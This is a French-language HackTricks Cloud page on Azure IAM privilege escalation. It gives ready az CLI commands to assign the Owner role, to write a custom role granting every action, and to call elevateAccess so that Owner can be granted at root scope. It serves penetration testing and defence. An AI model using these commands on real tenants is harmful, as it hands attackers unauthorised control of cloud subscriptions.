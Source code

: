 # Az - Azure IAM Privesc (Authorization)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Azure IAM

Pour plus d'informations, consultez :

{% content-ref url="../az-services/az-azuread.md" %}
[az-azuread.md](../az-services/az-azuread.md)
{% endcontent-ref %}

### Microsoft.Authorization/roleAssignments/write

Cette permission permet d'assigner des rôles à des principaux sur un périmètre spécifique, permettant à un attaquant d'escalader les privilèges en s'assignant un rôle plus privilégié :

{% code overflow="wrap" %}
```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```
{% endcode %}

### Microsoft.Authorization/roleDefinitions/Write

Cette permission permet de modifier les permissions accordées par un rôle, permettant à un attaquant d'escalader les privilèges en accordant plus de permissions à un rôle qu'il a assigné.

Créez le fichier `role.json` avec le **contenu** suivant :
```json
{
"Name": "<name of the role>",
"IsCustom": true,
"Description": "Custom role with elevated privileges",
"Actions": [
"*"
],
"NotActions": [],
"DataActions": [
"*"
],
"NotDataActions": [],
"AssignableScopes": [
"/subscriptions/<subscription-id>"
]
}
```
Puis mettez à jour les autorisations de rôle avec la définition précédente en appelant :
```bash
az role definition update --role-definition role.json
```
### Microsoft.Authorization/elevateAccess/action

Cette autorisation permet d'élever les privilèges et de pouvoir attribuer des autorisations à tout principal pour les ressources Azure. Elle est destinée à être accordée aux administrateurs globaux d'Entra ID afin qu'ils puissent également gérer les autorisations sur les ressources Azure.

{% hint style="success" %}
Je pense que l'utilisateur doit être Administrateur Global dans Entra ID pour que l'appel d'élévation fonctionne.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```
{% endcode %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

